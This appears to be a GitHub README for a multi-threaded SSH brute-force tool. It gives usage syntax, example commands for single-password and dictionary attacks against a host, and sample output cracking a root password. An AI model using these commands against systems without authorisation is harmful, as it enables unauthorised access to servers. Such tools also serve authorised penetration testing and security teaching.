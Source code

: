 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> | -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u root  -P pass.list -t 10 -V  
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: dg
Attempting - Username: root, Password: asdfasdfsad
Attempting - Username: root, Password: f
Attempting - Username: root, Password: ga
Attempting - Username: root, Password: sadf
Attempting - Username: root, Password: asdfa
Attempting - Username: root, Password: sdf
Attempting - Username: root, Password: asdfg
Attempting - Username: root, Password: f
Attempting - Username: root, Password: dsf
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: df
Attempting - Username: root, Password: sad
Attempting - Username: root, Password: as
Attempting - Username: root, Password: asdf
Attempting - Username: root, Password: asdasdf
Attempting - Username: root, Password: fasdgafadf
Attempting - Username: root, Password: asd
Attempting - Username: root, Password: toor
Credentials found - Username: root, Password: toor
```
